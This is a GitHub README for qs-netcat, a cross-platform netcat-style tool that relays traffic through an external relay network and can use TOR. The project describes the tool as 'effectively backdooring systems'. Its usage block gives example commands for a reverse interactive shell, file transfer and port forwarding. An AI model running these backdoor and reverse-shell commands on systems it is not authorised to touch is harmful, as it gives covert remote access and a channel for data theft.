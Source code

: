 # qs-netcat

<p align="center">
  <img src="https://github.com/qsocket/qs-netcat/raw/master/.github/img/banner.png">
  <br/><br/>
  <a href="https://github.com/qsocket/qs-netcat">
    <img src="https://img.shields.io/github/v/release/qsocket/qs-netcat?style=flat-square">
  </a>
  <a href="https://github.com/qsocket/qs-netcat">
    <img src="https://img.shields.io/github/go-mod/go-version/qsocket/qs-netcat?style=flat-square">
  </a>
  <a href="https://goreportcard.com/report/github.com/qsocket/qs-netcat">
    <img src="https://goreportcard.com/badge/github.com/qsocket/qs-netcat?style=flat-square">
  </a>
  <a href="https://github.com/qsocket/qs-netcat/issues">
    <img src="https://img.shields.io/github/issues/qsocket/qs-netcat?style=flat-square&color=red">
  </a>
  <a href="https://raw.githubusercontent.com/qsocket/qs-netcat/master/LICENSE">
    <img src="https://img.shields.io/github/license/qsocket/qs-netcat.svg?style=flat-square">
  </a>
</p>

qs-netcat is a cross-platform networking utility which reads and writes data across systems using the [QSRN](https://github.com/qsocket/qsrn). 
It allows redirecting true PTY session with reverse connections effectively backdooring systems, creating TCP proxies, and transfering files to/from systems under NAT networks.



```
qs-netcat [-liC] [-e cmd] [-p port]
Version: v1.0.1660145903-1696aab
	-s <secret>  Secret. (e.g. password).
	-l           Listening server. [default: client]
	-g           Generate a Secret. (random)
	-C           Disable encryption.
	-t           Probe interval for QSRN. (5s)
	-T           Use TOR.
	-f <IP>      IPv4 address for port forwarding.
	-p <port>    Port to listen on or forward to.
	-i           Interactive login shell. (TTY) [Ctrl-e q to terminate]
	-e <cmd>     Execute command. [e.g. "bash -il" or "cmd.exe"]
	-pin         Enable certificate fingerprint verification on TLS connections.
	-v           Verbose output.
	-q           Quiet. No log output.

Example to forward traffic from port 2222 to 192.168.6.7:22:
  $ qs-netcat -s MyCecret -l -f 192.168.6.7 -p 22     # Server
  $ qs-netcat -s MyCecret -p 2222                     # Client
Example file transfer:
  $ qs-netcat -q -l -s MyCecret >warez.tar.gz         # Server
  $ qs-netcat -q -s MyCecret <warez.tar.gz            # Client
Example for a reverse shell:
  $ qs-netcat -s MyCecret -l -i                       # Server
  $ qs-netcat -s MyCecret -i                          # Client

```
